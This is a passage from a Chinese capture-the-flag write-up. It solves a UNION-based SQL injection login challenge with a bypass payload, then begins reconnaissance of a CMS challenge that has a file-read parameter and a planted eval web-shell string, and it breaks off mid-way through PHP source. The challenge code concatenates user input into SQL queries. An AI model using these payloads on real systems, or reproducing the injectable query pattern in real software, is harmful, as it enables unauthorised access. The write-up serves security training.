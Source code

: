 题目说主要考察 UNION 查询，给出了源代码

```php

<?php
if($_POST[user] && $_POST[pass]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = $_POST[user];
  $pass = md5($_POST[pass]);
  $query = @mysql_fetch_array(mysql_query("select pw from ctf where user='$user'"));
  if (($query[pw]) && (!strcasecmp($pass, $query[pw]))) {
      echo "<p>Logged in! Key: ntcf{**************} </p>";
  }
  else {
    echo("<p>Log in failure!</p>");
  }
}
?>
```

查询语句 `select pw from ctf where user='$user'` ，将 pass 进行 MD5 加密后与选到的密码进行对比。

构造 `user=%27union select md5(1)%23&pass=1` 即可

## 0x0c [综合题 2](http://cms.nuptzj.cn/)

### 一个很有意思的网站，先收集一下信息。

- index.php 主页文件
- about.php 可以查看其他文件
- sm.txt CMS 的说明文档
- config.php 数据库信息
- passencode.php 加密算法
- say.php 用于接受和处理用户留言请求
- so.php 搜索
- preview.php 预览

admin 表结构 create table admin ( id integer, username text, userpass text, )

已知页面的参数

- about.php?file=<filename>
  可以传一个 file 参数
- index.php?page=1
  在第二页发现内容 `<?php eval($_POST['1:123',1)#`
- say.php
  say.php?nice=&usersay=&Submit=确认提交

### 尝试通过 about.php 获取其他文件内容。

1. index.php

   ```php
   <?php if(!isset($_COOKIE['username'])){ setcookie('username',''); setcookie('userpass',''); } ?>
   <?php //这里输出用户留言
   include 'antixss.php';
   include 'config.php';
   $con = mysql_connect($db_address,$db_user,$db_pass) or die("不能连接到数据库！！".mysql_error());
   mysql_select_db($db_name,$con);
   $page=$_GET['page'];
   if($page=="" || $page==0){ $page='1'; }
   $page=intval($page);
   $start=($page-1)*7;
   $last=$page*7;
   $result=mysql_query("SELECT * FROM `message` WHERE display=1 ORDER BY id LIMIT $start,$last");
   if(mysql_num_rows($result)>0){
   ```